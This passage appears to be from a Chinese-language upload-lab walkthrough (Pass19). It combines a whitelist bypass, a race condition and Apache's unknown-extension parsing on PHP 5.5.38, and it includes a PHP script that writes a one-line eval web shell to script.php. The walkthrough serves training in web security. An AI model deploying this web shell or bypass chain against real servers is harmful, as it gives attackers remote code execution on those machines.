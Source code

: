 

+ 使用正确的版本

~~~ tex
白名单+条件竞争+Apache未知后缀名解析漏洞
上传一个Apache不识别的后缀名 通过条件竞争访问php文件 写入木马成功
注意Apache未知后缀名解析漏洞适用 php ts 版本 
~~~

~~~ tex
用版本5.5.38的php
~~~

![Pass19_01](./img/Pass19_01.png)



+ 编写脚本

<code>php</code>脚本<code>NineteenScript.php</code>代码如下:

~~~ php
<?php
	fputs(fopen('script.php','w'),'<?php @eval($_POST["Nineteen"])?>');
?>
~~~
